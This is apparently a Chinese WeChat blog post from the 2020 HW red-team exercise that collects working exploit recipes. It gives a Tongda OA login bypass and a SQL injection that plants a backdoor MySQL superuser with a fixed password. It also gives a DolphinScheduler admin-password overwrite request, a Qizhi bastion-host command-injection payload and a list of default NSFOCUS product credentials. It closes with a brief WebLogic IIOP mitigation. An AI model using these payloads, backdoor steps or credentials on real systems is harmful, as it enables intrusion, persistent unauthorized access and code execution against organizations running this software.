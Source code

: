 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzI4ODgwMzc4MQ==&mid=2247483773&idx=1&sn=71fd8947f2ad5d41de6f35a6b6fb8368&chksm=ec399fd7db4e16c16fc9ce3291579992e731333680587f39d70546bf5ba72d04a9d89c34430e&scene=178#rd)

红队小伙子都很有精神哦, 蜜罐数据全都是你的脚印~

红队大叔: 叮! 新的主机上线。这得晚上加餐了吧。

蓝队小哥: 枉我三日的痴心, 终究是错付了她。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCrU3de2JDjsBxDmia5d1141LBkvpKyZUMrTXlfnUk9icndvq4Ot2Z0aVQ/640?wx_fmt=png)

0、通达 OA 任意用户登录

1、首先访问 /ispirit/login\_code.php 获取 codeuid。

2、访问 /general/login\_code\_scan.php 提交 post 参数：

uid=1&codeuid={9E908086-342B-2A87-B0E9-E573E226302A}

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCwXkFVxysXxMvrh9NEO3iaNYfIZHRRP1kjz2g7v0SaLN0fKiaMP45LopQ/640?wx_fmt=png)

3、最后访问 /ispirit/login\_code\_check.php?codeuid=xxx

这样 $\_SESSION 里就有了登录的信息了。

1、通达 OA v11.7 后台 SQL 注入

来源: https://mp.weixin.qq.com/s/8rvIT1y\_odN2obJ1yAvLbw

利用条件: 需要登录权限, 文章作者给出了利用链注入加 mysql 权限, 又是写木马的。确实用起来很舒服。

/general/hr/manage/query/delete\_cascade.php?condition\_cascade=

select%20if((substr(user(),1,1)=%27r%27),1,power(9999,99))

1、添加一个 mysql 用户

grant all privileges ON mysql.\* TO 'ateam666'@'%'IDENTIFIED BY'abcABC@123' WITH GRANT OPTION

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCZuTKGTqa2ibIUeTRDeeCsKIcYgOW9uibF5onXdEFmap5vuMqSvn9jovg/640?wx_fmt=png)

2、给创建的 ateam666 账户添加 mysql 权限。  

```
UPDATE \`mysql\`.\`user\` SET \`Password\` = '\*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', \`Select\_priv\` = 'Y', \`Insert\_priv\` = 'Y', \`Update\_priv\` = 'Y', \`Delete\_priv\` = 'Y', \`Create\_priv\` = 'Y', \`Drop\_priv\` = 'Y', \`Reload\_priv\` = 'Y', \`Shutdown\_priv\` = 'Y', \`Process\_priv\` = 'Y', \`File\_priv\` = 'Y', \`Grant\_priv\` = 'Y', \`References\_priv\` = 'Y', \`Index\_priv\` = 'Y', \`Alter\_priv\` = 'Y', \`Show\_db\_priv\` = 'Y', \`Super\_priv\` = 'Y', \`Create\_tmp\_table\_priv\` = 'Y', \`Lock\_tables\_priv\` = 'Y', \`Execute\_priv\` = 'Y', \`Repl\_slave\_priv\` = 'Y', \`Repl\_client\_priv\` = 'Y', \`Create\_view\_priv\` = 'Y', \`Show\_view\_priv\` = 'Y', \`Create\_routine\_priv\` = 'Y', \`Alter\_routine\_priv\` = 'Y', \`Create\_user\_priv\` = 'Y', \`Event\_priv\` = 'Y', \`Trigger\_priv\` = 'Y', \`Create\_tablespace\_priv\` = 'Y', \`ssl\_type\` = '', \`ssl\_cipher\` = '', \`x509\_issuer\` = '', \`x509\_subject\` = '', \`max\_questions\` = 0, \`max\_updates\` = 0, \`max\_connections\` = 0, \`max\_user\_connections\` = 0, \`plugin\` = 'mysql\_native\_password', \`authentication\_string\` = '', \`password\_expired\` = 'Y' WHERE \`Host\` = Cast('%' AS Binary(1)) AND \`User\` = Cast('ateam666' AS Binary(5));

```

3、刷新数据库就可以登录到数据库啦。  

/general/hr/manage/query/delete\_cascade.php?condition\_cascade=flush privileges;

4、通达 OA 配置 mysql 默认是不开启外网访问的所以需要修改 mysql 授权登录。

/general/hr/manage/query/delete\_cascade.php?condition\_cascade=

grant all privileges ON mysql.\* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

5、接下来就是考验 mysql 提权功底的时候啦 233...

2、Apache DolphinScheduler 权限覆盖漏洞 \[CVE-2020-13922\]

大概就长这个样子, 默认密码 \[HW 平安夜: 09/12 态势感知\] 有写到。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCbh6ylSZxVMv3StQ4PrrI2ETPl7JhOvPrM0hCTNgnfY0eTIJq5ga1nA/640?wx_fmt=png)

```
POST /dolphinscheduler/users/update

id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=




```

3、齐治堡垒机远程代码执行

据说还是另外一个版本是 java 的。

POST /shterm/listener/tui\_update.php

a=\["t';import os;os.popen('whoami')#"\]

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCSMkdfVxUyiazd2l8iaVIxrjjibZC3icPd8jB2Kdv2XUcPyH1UiaiczW79KyA/640?wx_fmt=png)

4、绿盟安全产品默认密码排查列表

来源: 群里老大哥

IPS 入侵防御系统、SAS­H 运维安全管理系统、SAS 安全审计系统、DAS 数据库审计系统、RSAS 远程安全评估系统、WAF WEB 应用防护系统  

sysauditor/sysauditor

sysmanager/sysmanager

supervisor/supervisor

maintainer/maintainer

webpolicy/webpolicy

sysadmin/sysadmin

conadmin/conadmin

supervis/supervis

webaudit/webaudit

sysadmin/sysadmin

conadmin/nsfocus

weboper/weboper

auditor/auditor

weboper/weboper

nsadmin/nsadmin

admin/nsfocus

admin/admin

shell/shell

0day 预警:

来源: 前天说的 “协同 banIP 蓝队都是第 1”

Weblogic  GIOP 反序列化漏洞（0day），攻击者通过反序列化可以进行任意代码执行，请各单位立即排查。

建议关闭 Weblogic IIOP 协议，关闭方式如下：

1\. 打开 Weblogic 控制台。

2\. 选择 “服务”->”AdminServer”->” 协议”，取消 “启用 IIOP” 的勾选。

3\. 重启 Weblogic 项目，使配置生效。

回顾一下 HW 2020/09/14:

今天也护网行动也慢慢走向高潮了, 高级的玩法也已经有人开始玩起来了。

看来明天去上班要带上一根棍子了, 敲几个无人机下来拿去卖钱哼哼。  

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vCNKBa2ELsD1Go4tfmHec0U0ZZYxcwaBbwjK7cY9jy5P1CpFjRUFib68w/640?wx_fmt=png)

漏洞利用工具火爆, 不要随便在微信群内下载使用。2333

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vC1wXDnVuicrm8BwbHnIMsMwB3gaCVSqXdqaFamL0oYrR5CI5dzpXAzTw/640?wx_fmt=png)

素材均来自网络

![](https://mmbiz.qpic.cn/mmbiz_gif/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vClsMt7tiaa2QuJNAia4ibmaevEr0GRe4nKyPIYLZsj2GzegtsMpmibL8ibnA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vC2Ykcg7OALf4nQue9aLgK8Hgsqlo4gPaG7dViadosEIO637BMzAsia1jw/640?wx_fmt=png)